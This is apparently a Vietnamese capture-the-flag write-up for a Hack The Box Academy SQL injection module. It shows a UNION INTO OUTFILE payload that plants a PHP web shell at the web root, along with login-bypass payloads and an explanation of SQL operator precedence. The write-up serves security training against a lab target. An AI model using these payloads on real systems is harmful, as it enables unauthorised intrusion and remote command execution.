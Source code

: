 Tiếp theo chúng ta sẽ ghi file rev.php tại thư mục gốc của web:

```sql
cn' union select "",'<?php system($_REQUEST[1]); ?>', "", "" into outfile '/var/www/html/rev.php'-- -
```

Gọi rev.php?1=command và chúng ta lụm flag.

![](images/18.png)

# Skills Assessment - SQL Injection Fundamentals

---

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![InlaneFreight login page with username and password fields](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

Đầu tiên thử với payload này và đã thành công:

```sql
admin' or 1=1-- -
```

Còn nếu dùng chuỗi thì sẽ phải như này:

```sql
admin' or '1'='1'-- -
```

Vậy chứng tỏ câu lệnh truy vấn có thể là:

```sql
SELECT username, password WHERE username = 'admin' or '1'='1'-- -' AND password = 'password';
```

Như vậy có ít nhất một vế của toán tử `OR` đúng tất nhiên sẽ đúng.
Vậy tại sao `admin' or '1'='1` sai? Chúng ta hãy phân tích lại truy vấn: SQL sẽ ưu tiên toán tử AND trước sẽ như này:

```sql
SELECT username, password WHERE username = 'admin' OR '1'='1' AND password = 'password';
```
